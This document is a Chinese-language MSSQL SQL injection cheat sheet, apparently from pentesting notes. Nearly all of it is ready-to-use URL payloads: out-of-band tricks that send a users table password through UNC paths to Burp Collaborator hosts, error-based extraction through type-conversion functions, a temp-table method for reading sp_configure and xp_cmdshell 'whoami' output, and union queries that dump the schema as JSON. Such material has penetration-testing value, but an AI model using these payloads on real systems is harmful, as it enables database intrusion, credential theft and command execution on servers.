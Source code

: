 ### fn_xe_file_target_read_file()

`https://vuln.app/getItem?id= 1+and+exists(select+*+from+fn_xe_file_target_read_file('C:\*.xel','\\'%2b(select+pass+from+users+where+id=1)%2b'.064edw6l0h153w39ricodvyzuq0ood.burpcollaborator.net\1.xem',null,null))`
**权限**：在服务器上需要“VIEW SERVER STATE”权限。

### fn_get_audit_file()
`https://vuln.app/getItem?id= 1%2b(select+1+where+exists(select+*+from+fn_get_audit_file('\\'%2b(select+pass+from+users+where+id=1)%2b'.x53bct5ize022t26qfblcsxwtnzhn6.burpcollaborator.net\',default,default)))`
**权限**：需要CONTROL SERVER权限
### fn_trace_gettable()
`https://vuln.app/getItem?id=1+and+exists(select+*+from+fn_trace_gettable('\\'%2b(select+pass+from+users+where+id=1)%2b'.ng71njg8a4bsdjdw15mbni8m4da6yv.burpcollaborator.net\1.trc',default))`
**权限**：需要CONTROL SERVER权限

## 替换报错表达式

以下函数会触发类型错误
- SUSER_NAME()
- USER_NAME()
- PERMISSIONS()
- DB_NAME()
- FILE_NAME()
- TYPE_NAME()
- COL_NAME()
ORI:`https://vuln.app/getItem?id=1'+AND+1=@@version--`
New:`https://vuln.app/getItem?id=1'%2buser_name(@@version)--`

## 获取存储过程执行结果,查询配置是否开启

1. 创建一个具有相同类型字段的表
1. 执行存储过程将结果插入创建表中
1. 从表中查询对应结果
```sql
--查询配置
drop table mdconfig;create table mdconfig(a varchar(max),b int,c int,d int,e int)
insert mdconfig exec sp_configure
select b from mdconfig where a = 'xp_cmdshell'

--xp_cmdshell结果
drop table md32;create table md32(a varchar(max))
insert md32 exec xp_cmdshell 'whoami'
select a from md32
```
## 格式化数据

- for xml  需要指定模式(手动添加根节点)
- for json
### for json
**联合查询:**
`https://vuln.app/getItem?id=-1'+union+select+null,concat_ws(0x3a,table_schema,table_name,column_name),null+from+information_schema.columns+for+json+auto--`
